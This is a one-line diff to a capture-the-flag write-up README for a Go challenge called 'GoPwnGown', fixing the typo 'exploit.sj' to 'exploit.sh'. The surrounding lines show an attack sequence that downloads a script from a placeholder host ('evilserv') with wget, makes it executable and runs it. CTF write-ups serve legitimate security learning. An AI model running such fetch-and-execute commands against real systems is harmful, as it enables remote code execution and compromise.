

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/GoPwnGown/README.md, the part around the change. Rendered like a GitHub page.

`````diff
--- a/Xmas_RootMe_2024/GoPwnGown/README.md
+++ b/Xmas_RootMe_2024/GoPwnGown/README.md
@@ -68,7 +68,7 @@ func handleRequest(w http.ResponseWriter, r *http.Request) {
 
  - 1st : wget http://evilserv/exploit.sh
  - 2nd : chmod +x exploit.sh
- - 3rd : ./exploit.sj
+ - 3rd : ./exploit.sh
 
 ````bash
 #!/bin/bash
`````
